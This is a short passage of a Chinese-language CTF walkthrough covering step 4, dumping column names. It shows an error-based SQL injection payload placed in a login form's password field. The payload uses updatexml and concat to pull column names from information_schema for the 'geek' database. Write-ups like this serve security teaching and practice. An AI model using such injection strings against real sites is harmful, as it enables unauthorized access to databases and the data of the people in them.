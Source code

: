 <img src="CTF.assets/image-20230622002850353.png" alt="image-20230622002850353" style="zoom:50%;" />

**4. 爆字段**

由于这里的数据量比较小，所以不用指定数据表也能得到完整数据

```bash
username=admin&password=-1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_schema)like("geek")))),3))%23
```

<img src="CTF.assets/image-20230622003625827.png" alt="image-20230622003625827" style="zoom:50%;" />
